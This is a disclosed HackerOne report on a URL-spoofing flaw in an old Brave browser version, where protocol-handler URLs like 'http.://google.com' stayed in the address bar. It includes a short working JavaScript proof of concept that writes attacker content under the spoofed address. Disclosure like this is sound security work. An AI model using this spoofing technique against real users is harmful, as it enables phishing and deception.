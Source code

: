 # URL spoofing using protocol handlers

## Report Details
- **Report ID**: 373721
- **URL**: https://hackerone.com/reports/373721
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-06-29T04:50:18.539Z
- **Disclosed**: 2018-10-04T00:50:59.744Z

## Reporter
- **Username**: metnew
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:
Navigation to protocol handler changes URL in the address bar (e.g. `ssh://google.com` in the address bar is standard behavior).

Browsers change URL in the address bar to `about:blank` if a parent window tries to access the opened page with protocol handler URL. This behavior prevents URL spoofing.
 
However, Brave doesn't clear address bar after navigation to protocol handler URL -> URL spoofing.

## Products affected: 
 
Brave: 0.23.19 
V8: 6.7.288.46 
rev: 178c3fbc045a0cbdbe098db08307503cce952081 
Muon: 7.1.3 
OS Release: 17.6.0 
Update Channel: Release 
OS Architecture: x64 
OS Platform: macOS 
Node.js: 7.9.0 
Brave Sync: v1.4.2 
libchromiumcontent: 67.0.3396.87


## Steps To Reproduce:

Minimal PoC:

> "http." instead of "http" looks good

```
<body>
    <script>
        window.onclick = () => {
            x = window.open('http.://google.com')
            setTimeout(() => {
                x.document.write(`Hello Google.com! <button onclick="alert('I can run JS on this page!')">Click me!</button>`)
            }, 1000)
        }
    </script>
</body>
```

## Supporting Material/References:

[Live PoC](https://brave-spoofing-rand-protocol-yepftucakb.now.sh/exploit)
[Screencast](https://brave-spoofing-rand-protocol-yepftucakb.now.sh/brave-url-spoofing-notreal-protocol.mp4)

## Impact

URL spoofing 😈

## Attachments
- exploit.html
- brave-url-spoofing-notreal-protocol.mp4

